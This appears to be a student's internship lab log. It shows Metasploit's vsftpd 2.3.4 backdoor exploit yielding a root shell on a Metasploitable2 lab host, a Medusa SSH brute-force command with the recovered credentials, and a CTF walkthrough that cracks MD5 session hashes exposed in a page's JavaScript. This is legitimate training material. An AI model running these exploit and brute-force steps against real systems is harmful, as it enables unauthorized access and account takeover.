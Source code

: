 # Day 8 – Metasploitable2 Exploitation and CTF Challenges

## 💥 Metasploit - VSFTPD v2.3.4 Exploit (Backdoor Command Execution)

### 🔍 Step-by-Step Procedure

1. **Search for the Exploit:**
   ```bash
   search vsftpd 2.3.4
   ```

2. **Use the Exploit Module:**
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   ```

3. **Set RHOST:**
   ```bash
   set RHOST 172.16.26.208
   ```

4. **Run the Exploit:**
   ```bash
   run
   ```

5. **Shell Access Achieved:**
   - Once the exploit succeeds, it spawns a backdoor and connects to the target.
   - You gain command shell access as the user `root`.

6. **Commands Executed:**
   ```bash
   whoami  # Output: root
   ls      # Listing directories and files
   ```

## 🧪 Medusa - Brute Force Login (SSH)

### 📂 Files Created
- `user.txt` and `password.txt` created with combinations of users and passwords.

### 🔍 Command:
```bash
medusa -h 172.16.26.208 -U user.txt -P password.txt -M ssh
```

### ✅ Successful Login:
- Username: `msfadmin`
- Password: `msfadmin`

### 🔐 SSH into Target:
```bash
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@172.16.26.208
```
![m1](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/m1.jpg)
![m2](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/m2.jpg)
![m3](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/m4.jpg)
![m5](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/m5.jpg)

## 🕵️‍♂️ CTF Challenge: HeartConnect — Find the Flag

### 🎯 Objective
Find the hidden flag on a dating-themed website — no exploitation needed. Just observation.

### 🧭 Walkthrough

#### Step 1: Load Profile Page
Each profile contains a unique `data-user-id` and username:
```html
<div class="card profile-card" data-user-id="0d107d09f5bbe40cade3de5c71e9e9b7" data-profile-user="arjun_singh">
```

#### Step 2: Inspect JavaScript
At the end of the HTML, JavaScript defined session hashes:
```js
const userSessions = {
    'priya_sharma': '25d55ad283aa400af464c76d713c07ad',
    'rahul_patel': 'e10adc3949ba59abbe56e057f20f883e',
    'sneha_gupta': '5f4dcc3b5aa765d61d8327deb882cf99',
    'arjun_singh': '098f6bcd4621d373cade4e832627b4f6',
    'kavya_reddy': '81dc9bdb52d04dc20036dbd8313ed055'
};
```

MD5 values decoded:
| Username       | MD5 Hash                             | Plaintext   |
|----------------|--------------------------------------|-------------|
| priya_sharma   | 25d55ad283aa400af464c76d713c07ad     | 12345678    |
| rahul_patel    | e10adc3949ba59abbe56e057f20f883e     | 123456      |
| sneha_gupta    | 5f4dcc3b5aa765d61d8327deb882cf99     | password    |
| arjun_singh    | 098f6bcd4621d373cade4e832627b4f6     | test        |
| kavya_reddy    | 81dc9bdb52d04dc20036dbd8313ed055     | 1234        |

#### Step 3: Decode `data-user-id`
```html
data-user-id="0d107d09f5bbe40cade3de5c71e9e9b7" → MD5 → "letmein"
```

#### Step 4: Visit the URL
```bash
/profiles?user_id=0d107d09f5bbe40cade3de5c71e9e9b7
```

✅ Flag was found on the page!

---

🎉 **Final Flag:**
```
flag{congrats_you_pwned_the_ssti_and_cookie_auth}
```
